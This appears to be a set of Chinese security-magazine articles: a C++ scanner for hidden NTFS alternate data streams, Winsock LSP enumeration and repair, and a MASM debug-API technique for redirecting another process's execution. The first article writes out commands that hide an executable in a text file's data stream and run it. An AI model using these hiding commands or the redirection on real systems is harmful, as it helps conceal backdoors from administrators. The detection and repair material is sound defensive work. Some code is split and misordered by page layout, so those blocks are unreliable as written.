

NTFS 作为 Windows 的一种文件系统格式得到了大家的认识，但其所包含的 NTFS 数据流，了解的人却并不是很多，而它又有很强的隐藏性，这给系统的安全带来了隐患。有些网站服务器的分区为 NTFS，当黑客入侵了该服务器后，可能会利用 NTFS 的特性将一些后门程序放到网站文件中，以达到通过 IE 等浏览器进行控制的目的。

本文是针对 NTFS 的一些分析，并写出程序来对其中的数据流进行检测，以解决这个安全问题。

## NTFS数据流的创建原理

使用 DOS 命令“type 将要附加的数据流文件 > 附加到的宿主文件(或文件夹):数据流文件名”即可创建。比如现在想将“1.exe”附加到“2.txt”文件中，并且访问名为“3.exe”则可运行命令“type 1.exe > 2.txt:3.exe”，这样就将“1.exe”作为 NTFS 数据流附加到“2.txt”上了。

## NTFS数据流的特性

NTFS 数据流在 Windows 系统环境下是不可显示的。如果上面的“2.txt”文件在附加 NTFS 数据流之前为 4 Byte，则附加之后仍为 4 Byte，大小不会改变，因为用户看不出任何效果，从而达到了很好的隐藏特性。

因为 NTFS 数据流只存在于 NTFS 文件格式的系统中，因而，如果将含有 NTFS 数据流文件（如这里的“2.txt”）先放到非 NTFS 分区（如 FAT32 分区），然后再移动到 NTFS 分区，则数据流消失。如果将 NTFS 数据流的宿主文件（或文件夹）删除，则 NTFS 数据流自己也会删除。

## NTFS数据流的应用

之前我们已经把“1.exe”附加到了“2.txt”文件中，附加后的文件名为“2.txt:3.exe”。此时，如果我们要运行这个数据流文件（“2.txt:3.exe”即原先的文件“1.exe”），则可使用命令“start ./2.txt:3.exe”。要注意的是，这里的“./”是必不可少的，否则会报“拒绝访问”的错误。

## NTFS数据流的检测

现在我们知道了 NTFS 数据流的特性，它具有很强的隐藏性，用户很难发现，所以，我们现在就来写一个程序，用于检测它。我们可以利用 BackupRead API 来对其进行读取，除此之外，用到的 API 还有 BackupSeek，此 API 用来对数据流进行定位。

本文的实现思路为：利用 BackupRead 读取，看其是否存在文件流，如果存在，则用 BackupSeek 跳过数据内容，再对 NTFS 数据流的名字进行读取，并显示出来。下面我们就开始编程实现它。

```cpp
int ReadStream(HANDLE hFile, bool bIsDirectory, char* FileName)
{
    WIN32_STREAM_ID sid; // 数据流头结构
    LPVOID lpContext = NULL; // 环境指针，读取数据流时必须为空
    DWORD dwRead = 1; // 实际读取的大小
    int Success;
    int Count = 0; // 数据流的个数
}
```

```cpp
UCHAR *Buffer; // 动态分配的空间指针
bool bIsFirst = true;
// 是否为所查找到的第一个数据流名
ZeroMemory(&sid, sizeof(WIN32_STREAM_ID));
// 清空 sid
// 数据流头大小，实际为 20 字节
DWORD dwStreamHeaderSize = (LPBYTE)&sid.cStreamName - (LPBYTE)&sid;

if (!bIsDirectory) // 如果不是目录，就执行此段
{
    // 读取原始文件头
    Success = ::BackupRead(hFile, (LPBYTE)&sid, dwStreamHeaderSize, &dwRead, false, false, &lpContext);
    if (!Success) // 读取原始文件头失败
    {
        return 0;
    }

    // 读取源文件内容
    char Len64[25];
    DWORD OrgFileLen;
    ZeroMemory(Len64, sizeof(Len64));
    // 将 i64 转为 DWORD 型
    sprintf(Len64, "%u", sid.Size);
    OrgFileLen = atol(Len64); // 跳过文件内容
    DWORD FileLenL, FileLenH;
    Success = ::BackupSeek(hFile, OrgFileLen, NULL, &FileLenL, &FileLenH, &lpContext);
    if (!Success)
    {
        return 0;
    }
}

while (dwRead)
{
    // 读取源文件内容
    char Len64[25];
    DWORD OrgFileLen;
    // 读取数据流头
    Success = ::BackupRead(hFile, (LPBYTE)&sid, dwStreamHeaderSize, &dwRead, false, false, &lpContext);
    if (!Success)
    {
        break;
    }

    // 读取数据流名称
    Buffer = (UCHAR*)malloc(sid.dwStreamNameSize + 2); // 动态申请缓存
    memset(Buffer, 0, sid.dwStreamNameSize + 2); // 缓存清空
    Success = ::BackupRead(hFile, (LPBYTE)Buffer, sid.dwStreamNameSize, &dwRead, false, false, &lpContext);
    if (!Success)
    {
        free(Buffer); // 释放缓存
        break;
    }

    if (dwRead) // 读取数不为 0
    {
        if (bIsFirst) // 输出的第一个数据流名
        {
            printf("\"%s\" Have Data Stream:\n", FileName);
            bIsFirst = false;
        }

        // 读取数据流文件内容大小
        ZeroMemory(Len64, sizeof(Len64));
    }
}
```

```cpp
// 将 i64 转为 DWORD 型
sprintf(Len64, "%u", sid.Size);
OrgFileLen = atol(Len64);
printf("\t\t[%ws] -> %u Byte\n", Buffer, OrgFileLen);
// 结果输出，直接输出数据流名称，用空格分隔
free(Buffer); // 释放缓存
Count++; // 数据流个数加 1

// 跳过数据流文件内容
DWORD FileLenL, FileLenH;
Success = ::BackupSeek(hFile, OrgFileLen, NULL, &FileLenL, &FileLenH, &lpContext);
if (!Success)
{
    break;
}
}
return Count;
}
```

在上面的代码中，我自己写了一个 ReadStream 函数，用于实现主要的数据流查找代码。其中需要传入的参数有：hFile 为已打开的文件句柄，bIsDirectory 是否为目录（因为目录的 NTFS 数据流读取与文件的 NTFS 数据流读取有点不太一样），FileName 为正在检测的 NTFS 数据流的文件名（用于显示，如果存在 NTFS 数据流）。

NTFS 数据流有一个结构体 WIN32_STREAM_ID（数据流头结构），大小为 20 字节。而数据流的整体结构如下。

- 1. 原始文件头（20字节）
- 2. 文件内容
- 3. 数据流头（20字节）
- 4. 数据流名字（Unicode 编码）
- 5. 数据流内容

（后面就一直重复 3、4、5，直到读取完毕）

- 1. 数据流头（20字节）
- 2. 数据流名字（Unicode 编码）
- 3. 数据流内容

（后面一直重复 1、2、3，直到读取完毕）

第二种情况就比第一种情况少了前面的两步，因为它们没有文件内容。需要说明的是，上面的 BackupSeek 是用于直接跳过文件内容的，如果想要读取出 NTFS 数据流的内容，也可以用 BackupRead，但应该注意，当 NTFS 数据流文件很大的时候，分配内存可能失败！

当宿主为非空文件时，我们首先也是读取前 20 字节到 WIN32_STREAM_ID 结构体中，里面的 Size 就标识了文件内容的大小，我们可以根据这……## 编程解析

个值来跳过文件内容，从而读取文件流的信息。

接下来我又编写了一个 GetFileDataStream 函数来用于文件的打开、大小判断，及对上面函数 ReadStream 的调用。

```cpp
void GetFileDataStream( char* FileName, bool bIsDirectory )
{
    int Count;
    HANDLE hFile = CreateFile( FileName,
        GENERIC_READ, FILE_SHARE_READ, NULL,
        OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL |
        FILE_FLAG_BACKUP_SEMANTICS, NULL );
    if( hFile == INVALID_HANDLE_VALUE )
    {
        printf( "ERROR When Open File \"%s\"!\n", FileName );
        return;
    }

    if( !bIsDirectory ) // 不是目录
    {
        DWORD dwFileSize;
        dwFileSize = GetFileSize( hFile, NULL );
        // 得到文件大小
        if( dwFileSize >= 0x80000000 )
        {
            // 文件太大，不分析(>=2G)
            CloseHandle( hFile );
            printf( "File \"%s\" Too Big! Ignore It! (大于2G)\n", FileName );
            return;
        }
        if( dwFileSize == 0 ) // 大小为0
        {
            bIsDirectory = true;
            // 如果文件大小为0，则按目录来处理
        }
    }

    Count = ReadStream(hFile, bIsDirectory, FileName);
    if( Count )
    {
        printf("\t\tCount of Data Stream: %d\r\n", Count);
    }

    CloseHandle( hFile );
}
```

这个函数需要传入的参数有：FileName 为待检测的文件名，bIsDirectory 用于判断是否为目录。首先使用 CreateFile 打开文件（或目录），如果不是目录的话，则检测它的大小，这里取的是 0x80000000，即 2GB，超过此大小的文件不分析（文件过大可能出错）。如果文件大小为 0，则 bIsDirectory=true，将其作为目录来处理，然后调用 ReadStream 函数，对其进行检测，最后关闭文件句柄。

为了实现对 NTFS 数据流的批量查找，之后我又实现了 FindAllFilesInDirectory 函数。

```cpp
void FindAllFilesInDirectory( char* Dir, bool bIsRecursion )
{
    GetFileDataStream( Dir, true );
    // 查看目录是否存在数据流

    ULONG DirStrLen = 0;
    while( *(Dir+DirStrLen) ) DirStrLen++;
    // 计算目录字符串长度

    DirStrLen--;
    if( DirStrLen+4 > (ULONG)MAX_PATH )
    {
        // 目录字符串过长
        printf("输入的目录太长!\n");
        return;
    }

    if( *(Dir+DirStrLen) == '\\' )
    {
        // 在字符串最后添加"\\*.*"
        *(Dir+DirStrLen) = '\0'; // 去掉斜线
    }

    char* Path = (char*)malloc( MAX_PATH + 1 );
    memset( Path, 0, MAX_PATH + 1 );
    memcpy( Path, Dir, MAX_PATH );
    strcat( Path, "\\*.*" );
    // 查找当前目录下的*.*文件（即所有文件）

    HANDLE hFile;
    WIN32_FIND_DATA FindFile;
    // 开始查找文件夹下的所有文件及目录
    hFile = FindFirstFile( Path, &FindFile );
    if( hFile != INVALID_HANDLE_VALUE )
    {
        // 存在文件或目录
        do
        {
            if( (!(FindFile.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY))
                && ( strcmp(FindFile.cFileName, ".") != 0 )
                && ( strcmp(FindFile.cFileName, "..") != 0 ) )
            {
                // 不是目录，即文件
                char Path2[MAX_PATH+1];
                sprintf(Path2, "%s\\%s", Dir, FindFile.cFileName );
                GetFileDataStream( Path2, false );
                // 查看该文件是否存在数据流
            }
            else if( strcmp(FindFile.cFileName, ".") != 0
                  && strcmp(FindFile.cFileName, "..") != 0 )
            {
                // 下一级目录
                // 查看子目录中是否有数据流，并且递归查询该目录中的文件(如有需要)
                char Path2[MAX_PATH+1];
                sprintf(Path2, "%s\\%s", Dir, FindFile.cFileName);
                if( bIsRecursion ) // 如果需要递归
                {
                    FindAllFilesInDirectory( Path2, true ); // 递归
                }
                else // 不递归，只查看该目录
                {
                    GetFileDataStream( Path2, true );
                    // 查看该目录是否有数据流
                }
            }
        } while( FindNextFile( hFile, &FindFile ) );
    }

    // 还有文件或目录
    ...
    free( Path ); // 释放内存
}
```

此函数的目的就是递归查找目录中的所有文件及子目录中的文件，以对其进行检测，其中利用了 FindFirstFile 和 FindNextFile API。需要我们传入参数有：Dir 为目录指针，bIsRecursion 为是否检测子目录中的文件。

到此，该程序主要部分就完成了，最后我用两个函数来分别对用户提供帮助，以及实现程序的入口参数的分析。

```cpp
void Usage() // 用法帮助
{
    printf("DataStreamFinder\n\n");
    printf("Made By Adly\n");
    printf("2007-10-10\n");
    printf("It Can Scan NTFS Data Stream!\n");
    printf("Usage:\n");
    printf("DSF [-F File] [-S Directory]\n\n");
    ...
}

void main(int argc, char* argv[])
{
    try {
        if (argc != 2 && argc != 3) {
            Usage();
            return;
        }
        ...
    }
}
```

```cpp
// 第一个参数的第一个字符为参数号
switch (argv[1][1]) {
case 'f':
case 'F':
    GetFileDataStream(argv[2], false);
    break;
case 's':
case 'S':
    FindAllFilesInDirectory(argv[2], true);
    break;
default:
    Usage();
}

else if ((argv[2][0]=='-') && (argv[2][2]=='\0')) {
    // 第二个参数的第一个字符为参数号
    switch (argv[2][1]) {
    case 'f':
    case 'F':
        GetFileDataStream(argv[1], false);
        break;
    case 's':
    case 'S':
        FindAllFilesInDirectory(argv[1], true);
        break;
    default:
        Usage();
    }
}
else {
    Usage();
}

catch(...) {
    printf("\n程序发生异常!\n");
}
```

为了防止未知的异常，我在其中还使用了 try catch 来进行捕获。

至此，整个程序就编写完毕了，它可以用来对整个分区的文件进行检测，如果有数据流，还可以看出数据流文件的大小，方便于网络管理员的查看。

#### 结语

通过对 NTFS 数据流的分析，我们可以看出它在系统安全方面存在一些隐患。通过分析它的格式，我们就可以编程实现批量地对文件进行检测，以排除恶意软件和后门。

适合读者：编程爱好者

前置知识：VC

### LSP 的遍历与修复


文/图 翼云

LSP 是英文 Layer Service Provider 的缩写，意思是“分层服务提供者”，它是一个系统组件。理解 LSP 是不能用短短的几句话就能说清楚的，它是一个较为复杂的概念。要大体地理解 LSP，就必须先了解 SPI。SPI 是 Service Provider Interface 的缩写，意思是“服务提供者接口”。计算机的专业词汇就这么麻烦，都是缩写。不过只要经常遇到这些缩写，自然而然就知道了。

下面我会简单地说说 SPI 和 LSP 的一些基本概念，我所说的内容参考于我所阅读资料的整理和总结。不足之处是肤浅，甚至可能有所纰漏，不过我会尽量细心，希望大家可以理解。

Winsock 2 符合 Windows 开放服务体系模式，是一个可扩展的 API。此体系允许第三方服务提供者可以加入一个传输服务提供者（transport service provider），由该传输服务提供者将 Winsock 与叠加在已有协议之上的其他协议或层连接起来，而客户端应用程序和 Winsock 2 DLL 可以不用做任何改动。第三方也可以加入一个名字空间服务提供者（Name Space Providers），以增强 Winsock 的名称解析功能。这些服务提供者都是利用 Winsock 的 SPI 插入到 Winsock 中的，LSP 属于传输服务提供者，这里也就不会讨论关于名字空间服务提供者的内容了。

传输服务提供者有两种类型，一种是基础型的（Base），另一种是分层型的（Layered）。分层服务提供者只实现较高层的特定通信功能，依靠现存的下层基础提供者来与远端做实际的数据交换。

> “Windows Sockets 2 incorporates the concept of a layered protocol: one that implements only higher-level communications functions while relying on an underlying transport stack for the actual exchange of data with a remote endpoint.”

这段话翻译于 MSDN，我翻译得不准确，还是看看 MSDN 的原文是怎么写的吧。分层服务提供者在基础服务提供者之上，并依靠基础服务提供者来实现各种功能，如图 1 所示。



SPI 提供 3 种协议：基础协议、分层协议和协议链。基础协议和分层协议就不再说了，而所谓的协议链就是把基础协议和分层协议按特定的顺序连接在一起的一个链式结构。系统上可用的不同协议包含在 Winsock 目录中，Winsock 用 WSAPROTOCOL_INFO 结构来描述特定协议的完整信息。WSAPROTOCOL_INFO 的结构如下。

```cpp
typedef struct _WSAPROTOCOL_INFOW
{
    DWORD dwServiceFlags1;
    DWORD dwServiceFlags2;
    DWORD dwServiceFlags3;
    DWORD dwServiceFlags4;
    DWORD dwProviderFlags;
    GUID ProviderId;
    DWORD dwCatalogEntryId;
    WSAPROTOCOLCHAIN ProtocolChain;

    int iVersion;
    int iAddressFamily;
    int iMaxSockAddr;
    int iMinSockAddr;
    int iSocketType;
    int iProtocol;
    int iProtocolMaxOffset;
    int iNetworkByteOrder;
    int iSecurityScheme;
    DWORD dwMessageSize;
    DWORD dwProviderReserved;
    WCHAR szProtocol[WSAPROTOCOL_LEN+1];
} WSAPROTOCOL_INFOW, FAR * LPWSAPROTOCOL_INFOW;
```

这个结构有两个版本，分别是 ANSI 和 UNICODE 版本，我这里列出来的是 UNICODE 版本的结构。这个结构定义在 winsock2.h 头文件中。这么多的成员，我只介绍其中 3 个比较关键的，分别是 ProviderId、dwCatalogEntryId 和 ProtocolChain。至于其他的成员，大家自行查 MSDN 即可。ProviderId 是服务提供商提供的 GUID（GUID 可以使用命令行下的 uuidgen 命令生成，也可以用 UuidCreate() 函数生成）；dwCatalogEntryId 是 WS2_32 分配的唯一标识。ProtocolChain 是一个 WSAPROTOCOLCHAIN 结构类型，它用来标识协议的类型（即分层协议、基础协议和协议链）。关于 WSAPROTOCOLCHAIN 结构，可以自己查看一下 MSDN，我们不会用到这个结构。

只要使用相应的 API 函数来填充这个结构，我们再读取这个结构，就可以得到所有的协议。相关的 API 函数一共有两个，分别是 WSAEnumProtocols 和 WSCEnumProtocols，第一个函数是在建立 socket 时便会使用的函数，第二个函数是 Windows SPI 提供的遍历函数。这两个函数是有区别的，区别是“WSAEnumProtocols only returns information on base protocols and protocol chains”（摘自 MSDN），也就是说 WSAEnumProtocols 只返回基础协议和协议链。

至此，相关知识大家就应该大体清楚了。下面来看看我们怎么得到这些协议的程序代码吧。

```cpp
WSCEnumProtocols(NULL,pProtocolInfo,
&dwBufferLength,&Errno);

pProtocolInfo=(LPWSAPROTOCOL_INFOW)
GlobalAlloc(GPTR,dwBufferLength);

n=WSCEnumProtocols(NULL,pProtocolInfo,
&dwBufferLength,&Errno);

for(i=0;i<n;i++)
{
    printf("Protocol Name:%ws\n",pProtocolInfo[i].szProtocol);
    WSCGetProviderPath((GUID *)&pProtocolInfo[i].ProviderId,ProviderDllPath,&c,&Errno);
    printf("DLL File Path:%ws\n\n",ProviderDllPath);
}

printf("Protocol's count : %d\n",n);
GlobalFree(pProtocolInfo);
```

这段代码的结构简单，我们主要来看看其中的两个函数的用法。代码中使用的是 WSCEnumProtocols() 函数（WSAEnumProtocols() 函数使用的方法与此类似），其函数原型如下。

```cpp
int WSCEnumProtocols(
    LPINT lpiProtocols,
    LPWSAPROTOCOL_INFOW lpProtocolBuffer,
    LPDWORD lpdwBufferLength,
    LPINT lpErrno
);
```

第二个参数是指向 WSAPROTOCOL_INFOW 的指针，第三个参数是缓冲区的长度。我们调用 WSCEnumProtocols() 两次，第一次的目的是得到缓冲区的长度，这样就可以为第二个参数分配相应大小的内存空间了。

代码中还使用了一个 WSCGetProviderPath() 函数，其功能是返回指定提供者的 DLL 路径。函数的原型如下。

```cpp
int WSCGetProviderPath(
    LPGUID lpProviderId,
```

#### 编程解析

栏目编辑：socket  
socket@hacker.com.cn

```c
LPWSTR lpszProviderDllPath;
LPINT lpProviderDllPathLen;
LPINT lpErrno
);
```

函数中的第二个参数是保存 DLL 路径的缓冲区，第三个参数是缓冲区的长度。

在看程序的输出结果前，我们先打开 360 安全卫士，依次选择“高级->高级工具集->LSP 修复工具”，其列表框中一共有 25 项。别关闭 360 安全卫士，再看我们的输出结果与 360 安全卫士的对比，如图 2 所示。我们程序的输出结果也是有 25 个，与 360 安全卫士是一样的。



图 2

由于 LSP 的特性，LSP 可以被利用在恶意的破坏行为上，比如“浏览器劫持”或“LSP 木马”之类，因此对 LSP 的正确性进行检测和修复是非常有必要的。

SPI 的核心其实就是注册表操作，而在注册表中是可以找到刚才我们用程序遍历显示的内容的。注册表中的路径如下：“HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\WinSock2\Parameters\Protocol_Catalog9\Catalog_Entries”下面的子键，名字为 12 位的字符串，由 000000000001 开始，然后往后递增，一共也是 25 个。随便打开一个子键，就可以看到一个名为“PackedCatalogItem”的键项，双击它就能看到一些信息。

既然知道注册表中保存了这些信息，那么修复 LSP 其实就是在注册表中进行的。在 360 安全卫士的安装目录下有一个名为 WinSockLSP 的 reg 文件，这个文件里面就是备份所有正确 LSP 配置的注册表信息，当我们要修复时，只要把这个注册表文件运行一下就可以了。而至于如何检测 LSP 是否正确，只要比较一下服务提供者的 DLL 是否正确即可。

我试着运行了一下 360 安全卫士中“LSP 修复工具”的“恢复 Winsock LSP 到初始状态”，运行我们的程序，只输出了 19 项，而不是 25 项了。但是“LSP 修复工具”中却还显示的是 25 项。这让我郁闷了。我打开注册表，找到了问题的原因。打开注册表的“HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\WinSock2\Parameters\Protocol_Catalog9”，看这个子键下有个“Num_Catalog_Entries”，它的值是 13（13 是十六进制，十进制就是 19），把这个键改成 19 就可以了（19 也是十六进制，十进制就是 25 了）。问题的原因找到了，应该出在了 360 安全卫士目录下的 WinSockLSP.reg 这个文件中，编辑这个文件，找到如下内容：

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters\Protocol_Catalog9]
"Num_Catalog_Entries"=dword:00000013
```

看到了吧？问题就是这里写的是 13，而不是 19。看来 WSCEnumProtocols() 函数在读取时，是直接读了注册表中“Num_Catalog_Entries”键项的值。程序输出结果不同的原因找到了，但新的问题又出现了。为什么 360 安全卫士的“LSP 修复工具”中就能显示 25 项呢？其实，既然我们已经知道 SPI 的核心是操作注册表，那么“LSP 修复工具”应该是使用了操作注册表的 API，而不是我们使用的 WSCEnumProtocols() 函数。

#### 总结

LSP 的遍历与修复的内容不是很复杂，遍历使用的是 SPI 提供的专门进行遍历的函数可以完成，使用注册表函数去遍历注册表的子键也能完成。检测 LSP 被恶意软件修改，就是查看提供者的 DLL 是否有问题。至于修复就是使用备份的注册表文件进行恢复。本文的内容并不复杂，只是我写的可能不是很清晰，这个总结也就是为了弥补我文章杂乱的缺憾，如果大家还有什么问题的话，欢迎到黑防论坛指出，我们共同讨论提高。

前置知识：汇编语言  
关键词：进程跳转、调试 API、Ring3

### Ring3 下实现进程之间的跳转

文／图 NONAME 剑人

看到本文的标题，大家可能会有疑问：进程之间怎么跳转？Windows 的机制决定了每个进程是独立的，但这并不意味着我们不能实现跳转。

通常来说，进程之间的跳转有 4 种方式，第一种是 Ring0 下的内存跳转，第二种是利用 ReadProcessMemory 写到自己的进程里再运行，第三种是利用远程线程，第四种是利用调试 API。

本文主要研究的是第四种方法。为什么不用其他方法呢？因为其他方法有各种各样的缺点。第一种不仅涉及到稳定性，Windows 的内存机制等也都是我们要考虑的，实现难度太大；第二种方法遇到一个需要调用资源的 API 就废了；第三种虽然经常用，但是如何使程序同步、传递各寄存器的值也是个问题，所以今天我们的目光放到第四种上——调试 API。

调试 API，顾名思义，就是用来调试程序的 API，其中各种各样的 API 组合起来可以“拼接”成有“无穷的威力”的程序（也是一种很好的提权工具），网上的相关资料有很多，我就不再赘述了。

说了那么多“前缀”，具体应该怎么实现呢？别急，待我一一道来。首先，我们应该以调试标志创建一个欲跳转的进程，并将其入口点写入 INT3（0CCh），运行，停在入口点，这时更改各个寄存器的值，还原原入口点，把 EIP 设为自己指定的地方，再根据情况设定单步异常或断点异常，直到再次满足条件，把跳转程序的寄存器的值返回，写入目前的寄存器。

OK！下面我们就先来看代码吧！代码分为 3 部分，第一部分为主程序，第二部分是主程序所包含（include）的调试程序，第三部分为自己编写的需要跳转的程序。这段代码出于对主题明了的目的，没有包含对欲跳转程序的 OEP 的处理，以及两个程序堆栈的连接，跳转的程序也是单独写的，读者可以根据具体情况自行设计。

```asm
;主程序
.586
.model flat, stdcall
option casemap:none
include windows.inc
include user32.inc
includelib user32.lib
include kernel32.inc
includelib kernel32.lib
.data?
align dword
stStartup STARTUPINFO <>
stProcInfo PROCESS_INFORMATION <>

DBEvent DEBUG_EVENT <>
stCONTEXT CONTEXT <>
OldByte1 db ?
MyEsp dd ?
MyEsp2 dd ?

.const
szProExit db 'test2.exe已经退出！',0
szReturn db '！程序返回成功！',0
szGogogo db '程序即将进入到 test2.exe',0
szOepFound db '程序到达 OEP',0
szCaption db 'NONAME 剑人制作',0
szFileName db 'test2.exe',0
dbInt03 db 0cch ;INT 3 的机器码

.code
start:
mov eax,10h
add eax,20h
call _OpenFile
invoke ExitProcess,NULL

_OpenFile proc
pushad
mov MyEsp,esp ;为了还原栈用
include DebugAPI.asm
ret
_OpenFile endp
end start
```

```asm
;第二部分 DebugAPI.asm:
;开始调试 test2.exe
invoke GetStartupInfo,addr stStartup
;把自己的 startup 复制到新进程里
mov eax,stStartup.cb
invoke CreateProcess,addr szFileName,NULL,NULL,NULL,NULL,DEBUG_PROCESS,NULL,NULL,addr stStartup,addr stProcInfo ;创建调试进程
.while TRUE ;调试循环体
invoke WaitForDebugEvent, addr DBEvent, INFINITE ;等待调试事件
.if DBEvent.dwDebugEventCode==EXIT_PROCESS_DEBUG_EVENT ;退出
invoke MessageBox,0,addr szProExit,addr szCaption,MB_OK
mov edi,stCONTEXT.regEdi ;把跳转程序的各个寄存器恢复到本地寄存器
mov esi,stCONTEXT.regEsi
mov ebx,stCONTEXT.regEbx
mov edx,stCONTEXT.regEdx
mov ecx,stCONTEXT.regEcx
mov eax,stCONTEXT.regEax
pushad
jmp over
.endif

.if DBEvent.dwDebugEventCode==CREATE_PROCESS_DEBUG_EVENT ;程序创建
invoke ReadProcessMemory,stProcInfo.hProcess,401000h,addr OldByte1,1,NULL ;读取老入口点
invoke WriteProcessMemory,stProcInfo.hProcess,401000h,addr dbInt03,1,NULL ;将入口点写入 int 3
.if eax
invoke MessageBox,0,addr szGogogo,addr szCaption,MB_OK
.endif
.endif

.if DBEvent.dwDebugEventCode==EXCEPTION_DEBUG_EVENT ;发生异常
.if DBEvent.u.Exception.pExceptionRecord.ExceptionCode == EXCEPTION_BREAKPOINT
;且为断点异常
mov stCONTEXT.ContextFlags,CONTEXT_FULL
;将读取寄存器的段对象之外全部
invoke GetThreadContext,stProcInfo.hThread,addr stCONTEXT ;得寄存器
mov ebx,stCONTEXT.regEip
;ebx==程序发生 INT3 的位置+1
.if ebx == 401001h
pushad
add stCONTEXT.regEip,4 ;跳过 int 3
invoke MessageBox,0,addr szOepFound,addr szCaption,MB_OK
